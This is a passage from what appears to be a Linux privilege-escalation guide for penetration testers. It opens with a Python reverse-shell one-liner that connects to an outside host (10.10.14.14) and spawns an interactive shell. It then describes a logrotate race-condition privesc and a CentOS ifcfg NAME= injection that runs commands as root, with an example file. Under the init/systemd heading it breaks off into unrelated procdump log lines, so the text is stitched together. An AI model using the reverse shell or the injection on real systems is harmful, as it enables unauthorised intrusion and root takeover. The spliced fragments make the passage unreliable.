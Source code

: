 ```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Logrotate exploitation

There is a vulnerability on `logrotate`that allows a user with **write permissions over a log file** or **any** of its **parent directories** to make `logrotate`write **a file in any location**. If **logrotate** is being executed by **root**, then the user will be able to write any file in _**/etc/bash\_completion.d/**_ that will be executed by any user that login.\
So, if you have **write perms** over a **log file** **or** any of its **parent folder**, you can **privesc** (on most linux distributions, logrotate is executed automatically once a day as **user root**). Also, check if apart of _/var/log_ there are more files being **rotated**.

{% hint style="info" %}
This vulnerability affects `logrotate` version `3.18.0` and below
{% endhint %}

More detailed information about the vulnerability can be found in this page: [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).

You can exploit this vulnerability with [**logrotten**](https://github.com/whotwagner/logrotten).

This vulnerability is very similar to [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/) **(nginx logs),** so whenever you find that you can alter logs, check who is managing those logs and check if you can escalate privileges substituting the logs by symlinks.

### /etc/sysconfig/network-scripts/ (Centos/Redhat)

If, for whatever reason, a user is able to **write** an `ifcf-<whatever>` script to _/etc/sysconfig/network-scripts_ **or** it can **adjust** an existing one, then your **system is pwned**.

Network scripts, _ifcg-eth0_ for example are used for network connections. The look exactly like .INI files. However, they are \~sourced\~ on Linux by Network Manager (dispatcher.d).

In my case, the `NAME=` attributed in these network scripts is not handled correctly. If you have **white/blank space in the name the system tries to execute the part after the white/blank space**. Which means; **everything after the first blank space is executed as root**.

For example: _/etc/sysconfig/network-scripts/ifcfg-1337_

```bash
NAME=Network /bin/id
ONBOOT=yes
DEVICE=eth0
```

(_Note the black space between Network and /bin/id_)

**Vulnerability reference:** [**https://vulmon.com/exploitdetails?qidtp=maillist\_fulldisclosure\&qid=e026a0c5f83df4fd532442e1324ffa4f**](https://vulmon.com/exploitdetails?qidtp=maillist\_fulldisclosure\&qid=e026a0c5f83df4fd532442e1324ffa4f)

### **init, init.d, systemd, and rc.d**


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714